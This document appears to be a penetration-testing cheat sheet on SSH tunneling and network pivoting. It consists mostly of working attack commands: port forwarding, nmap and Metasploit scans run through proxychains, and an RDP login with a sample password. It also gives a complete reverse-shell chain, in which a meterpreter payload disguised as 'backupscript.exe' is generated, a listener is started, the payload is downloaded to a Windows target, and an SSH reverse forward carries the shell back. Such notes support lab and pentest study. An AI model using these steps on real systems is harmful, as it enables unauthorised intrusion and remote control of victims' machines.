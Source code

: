 # SSH Tunneling

## SSH Local Port Forwarding

```bash
ssh -L <lport>:localhost:<rport> roger@<rhost>

# Multi-port example
ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64

# Confirm port forwarded
netstat -antp | grep <lport>
# or
nnmap -v -sV -p<lport> localhost
```

## SSH Dynamic Port Forwarding

```bash
# Standard
ssh -D 9001 roger@10.0.0.2

# start a background dynamic SOCKS5 proxy on localhost:1080
ssh -f -N -D 127.0.0.1:1080 user@jumphost
# -f = fork to background, -N = no remote command, -D = dynamic SOCKS port
```

### Nmap w/ proxychains

Can only perform full tcp scan, proxychains cannot interpret partial packets.

```bash
# Check proxychains and add if not there
tail -4 /etc/proxychains.conf
[ProxyList]
socks4 	127.0.0.1 9050
# socks5  127.0.0.1 1080
# and set: proxy_dns = yes   # (so DNS goes through the SOCKS proxy)

# Scan entire network segment
proxychains4 nmap -v -sn 172.16.0.1-200

# Scan a single windows host - defender blocks icmp
proxychains4 nmap -v -Pn -sT 172.16.0.13

# Network sweep
# safe: TCP connect scan through SOCKS (slower than native but works)
proxychains4 nmap -sT -Pn -p22,80,139,445,3306 -oA pivot_nmap_important 10.10.0.0/24

# full TCP port sweep (may be slow through proxy)
proxychains4 nmap -sT -Pn -p- --min-rate=100 -oA pivot_nmap_all 10.10.0.0/24
```

### Metasploit w/ proxychains

Using rdp as an example

```bash
proxychains msfconsole

> use auxiliary/scanner/rdp/rdp_scanner
> set rhosts 172.16.0.13
> run
|S-chain|-<>-127.0.0.1:9001-<><>-172.16.0.5:3389-<><>-OK

# xfreerdp in if results are +
proxychains xfreerdp3 /v:172.16.0.13 /u:roger /p:p@$$w0rd 
```

## Remote/Reverse Port Forwarding with SSH

Connect back a reverse shell from an unreachable network

host <-- victim <-- remote victim

Use the port 8080 on the victim server to forward all of our reverse  packets to our attack hosts' 8000 port, where Metasploit listener is running.

### Windows Payload with msvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

### Conf and Starting multi/handler

```bash
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

### Transferring Payload to Jump Host --> Target

```bash
# Attack host
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

# Send payload from jump host
python3 -m http.server 8123
```

```powershell
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

### Reverse port forward

```bash
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN

# Execute payload on Windows host and check Jump logs
```